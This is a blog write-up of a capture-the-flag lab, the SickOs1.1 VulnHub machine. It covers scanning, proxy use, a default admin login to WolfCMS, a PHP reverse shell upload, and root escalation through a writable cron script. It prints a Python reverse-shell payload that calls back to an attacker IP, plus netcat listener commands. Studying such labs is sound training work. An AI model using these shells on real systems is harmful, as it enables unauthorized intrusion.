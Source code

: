 ```yaml
---
title:      "SickOs1.1 WriteUp"
date:       2016-10-30 18:00:00
tags: [pentesting,writeup,vulnhub,sickos]
---
```

Today we will be solving a boot2root virtual machine from [vulnhub](http://www.vulnhub.com) that promises to be very interesting.

According to its creator, it is an entry-level machine, similar to the ones we could face on the OSCP labs, so if anyone is interested in tackling this certification, this could be an interesting starting point.

## Reconnaissance
Once booted the virtual machine (loaded on VMWare Player, NAT network configuration), we start by locating the victim with __*netdiscover*__ from the attacking machine in the same virtual network (a Kali installation in my case).

{% include image.html
            img="images/sickos1/sickos1.1-1.png"
            title="Execution of the netdiscover tool"
            caption="IP addresses .1, .2 and .254 are used by VMWare for NAT administration, so the address of our victim is 172.16.159.129" %}

## Scanning
Our inseparable friend *__nmap__* could not miss this party. Initially, we launch a full scan on every TCP port to see what services may be running.

{% include image.html
            img="images/sickos1/sickos1.1-2.png"
            title="nmap scan"
            caption="Preliminary scan with nmap" %}

We have __an SSH server open and a SQUID server__. The SSH server does not seem to be a vulnerable version, so SQUID will be our main attack vector for now.

### Fiddling with the proxy
Inspecting the SQUID server via browser we find out that it is working as an access filter.

{% include image.html
            img="images/sickos1/sickos1.1-3.png"
            title="SQUID error message"
            caption="SQUID blocks our access" %}

Editing the browser settings enables us to access through the proxy server offered by SQUID.

{% include image.html
            img="images/sickos1/sickos1.1-4.png"
            title="Browser proxy settings"
            caption="From now on, all our browser traffic will go trough the proxy, so it will be possible to access new resources" %}

Once the proxy is configured, the next logical step is to start with well-known ports in order to determine whether there is any web server running.

### Web scanning
We find an apparently simple web page on TCP port 80.

{% include image.html
            img="images/sickos1/sickos1.1-5.png"
            title="Web server on port 80"
            caption="HTML page without much more to offer" %}

Now that we know that there is a server running, it is worth trying *__nikto__* on it.

{% include image.html
            img="images/sickos1/sickos1.1-6.png"
            title="First half of nikto scan"
            caption="First half of nikto scan, the proxy is used for redirecting the scan" %}


{% include image.html
            img="images/sickos1/sickos1.1-7.png"
            title="Second half of nikto scan"
            caption="Second half of nikto scan" %}

Among all the interesting information found, we can make two important points:

* There exists a __robots.txt__ file, which kindly requests to search engine spiders not to index some pages inside a website, so it could contain something interesting.
* Some CGI are vulnerable to __shellshock__.

Willing to continue on the scanning stage, I decided to investigate the __robots.txt__ file, having __shellshock__ as ace on my sleeve just in case.

The __robots.txt__ file contains the following:  
```
    User-agent: *  
    Disallow: /  
    Disallow: /wolfcms
```

### WolfCMS
The */wolfcms* route seems promising, let's take a look.

{% include image.html
            img="images/sickos1/sickos1.1-8.png"
            title="WolfCMS initial page"
            caption="WolfCMS initial page" %}

A content management system is always something interesting, as it could enable us to upload useful files to the server. After digging a bit inside the official documentation, we discover the administrator login page.

{% include image.html
            img="images/sickos1/sickos1.1-9.png"
            title="WolfCMS admin login"
            caption="WolfCMS admistrator login page" %}

## Intrusion

### Web service
After various combination of users and passwords, we are lucky with __admin:admin__. It is certainly not the most impressive way of breaking into a system, but human mistakes as easy credentials are always dangerous risks that play in favour of an attacker.

### Limited shell
We find an administration interface that allows to upload files to the */public* directory. As we already knew, what we have is an __Apache__ server on our hands (thanks *__nikto__*) so we will try with a __[PHP script](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) for a reverse TCP connection__.


{% include image.html
            img="images/sickos1/sickos1.1-10.png"
            title="WolfCMS administrator interface"
            caption="WolfCMS administrator interface" %}

The next thing to do is opening a listening port with *__netcat__* in order to receive the connection request from our victim.

{% include image.html
            img="images/sickos1/sickos1.1-11.png"
            title="nc -v -n -l -p 9999"
            caption="Open listening port on attacking machine" %}

After modifying the script in order to point at our IP address and TCP port, __we upload the file and invoke it from *http://172.16.159.129/wolfcms/public/php-reverse-shell.php*__ through the browser, and we will obtain a limited shell.

{% include image.html
            img="images/sickos1/sickos1.1-12.png"
            title="Receiving the reverse TCP shell"
            caption="Access to system with user __www-data__" %}

### Privilege Escalation
Once inside the server, we start snooping the directory tree until finding what will be the key to root.

{% include image.html
            img="images/sickos1/sickos1.1-13.png"
            title="ls /etc/cron.d; cat /etc/cron.d/automate"
            caption="Script executed by root every minute" %}

It appears that we have writing permission on a python script executed by user __root__ every minute through *crontab*. From here on, there are many ways of proceeding, but I chose to keep with the reverse shell technique.

Adapting __[this one-line command](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)__, we substitute the python file for the next script:

```python
#!/usr/bin/python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("172.16.159.128",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p.subprocess.call(["/bin/sh","-i"])
```
With the script ready, we only have to wait until it is executed and obtain a root shell.

{% include image.html
            img="images/sickos1/sickos1.1-14.png"
            title="-v -n -l -p 1234"
            caption="Obtaining root shell" %}

## Flag
Finally, we obtain the flag from the */root* directory.

{% include image.html
            img="images/sickos1/sickos1.1-15.png"
            title="Flag."
            caption="CTF flag" %}

## Conclusions
It is obviously not the hardest machine you can find out there, yet it is very complete and close to reality. All pentesting steps must be covered (skipping *footprinting*, naturally) and, as it is common, there is not only one way of clearing the obstacles to our goal. In my opinion, a funny machine, useful for dusting off old habits and skills.

<iframe width="560" height="315" src="https://www.youtube.com/embed/4DHHv5OuEzY" frameborder="0" allowfullscreen="1"></iframe>
